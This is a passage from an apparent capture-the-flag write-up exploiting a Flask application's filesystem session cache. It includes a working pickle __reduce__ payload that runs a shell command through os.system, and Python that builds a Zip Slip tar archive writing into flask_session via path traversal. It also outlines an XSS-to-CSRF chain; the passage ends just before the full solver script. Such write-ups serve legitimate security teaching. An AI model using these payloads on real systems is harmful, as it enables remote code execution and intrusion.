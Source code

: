 If we go back to the `FileSystemCache` class, on line 191, the `FileSystemCache.get()` method is defined that reads the file from the disk and checks the first four bytes of the file data. If the check is passed, the file content is deserialized with `self.serializer.load()` method:

```python
def get(self, key: str) -> _t.Any:
   filename = self._get_filename(key)
   try:
       with self._safe_stream_open(filename, "rb") as f:
           pickle_time = struct.unpack("I", f.read(4))[0]
           if pickle_time == 0 or pickle_time >= time():
               return self.serializer.load(f)
   except FileNotFoundError:
       pass
   except (OSError, EOFError, struct.error):
       logging.warning(
           "Exception raised while handling cache file '%s'",
           filename,
           exc_info=True,
       )
   return None
```

We can read from the Pickle documentation that insecure deserialization can lead to remote code execution. To pass the four-bytes check, we can prepend four bytes of zeros before the serialized pickle payload:

```python
def __reduce__(self):
    cmd = ('/readflag > /app/application/static/flag.txt')
    return os.system, (cmd,)
pickle_time = struct.pack("I", 0000)
pickled_payload = pickle_time + pickle.dumps(RCE())
```

Here's how to create the Zip Slip archive with the Pickle payload in Python:

```python
zipslip = io.BytesIO()
tar = tarfile.open(fileobj=zipslip, mode='w:gz')
info = tarfile.TarInfo(f'../../../../../app/flask_session/{filename}')
info.mtime = time.time()
info.size = len(pickled_payload)
tar.addfile(info, io.BytesIO(pickled_payload))
tar.close()
```

# Exploitation

We'll use the cross-site scripting vulnerability to perform CSRF on the `/api/firmware/upload` endpoint to upload the Zip Slip payload for extraction. The extraction will place the pickle serialized RCE payload in the `flask_session` directory. Finally, we'll trigger the deserialization by visiting the application with a session cookie sid that matches the md5 filename of the payload. Here's the full-chain solver script:
